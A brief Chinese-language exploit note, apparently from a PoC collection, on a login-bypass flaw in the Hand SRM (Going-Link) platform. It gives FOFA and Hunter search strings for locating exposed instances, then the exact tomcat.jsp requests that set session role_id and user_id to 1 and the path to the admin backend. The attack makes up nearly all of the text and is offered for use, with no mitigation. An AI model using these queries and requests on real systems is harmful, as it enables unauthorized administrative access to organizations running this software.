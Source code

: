 # 汉得SRM tomcat.jsp 登陆绕过漏洞

## 网络测绘

fofa: app="汉得SRM云平台(Going-Link)"

hunter: app.name="汉得 SRM Going-Link"

## POC / EXP

验证POC (Tomcat session操控)

```
/tomcat.jsp?dataName=role_id&dataValue=1
/tomcat.jsp?dataName=user_id&dataValue=1
```

访问跳转后台

```
/main.screen
```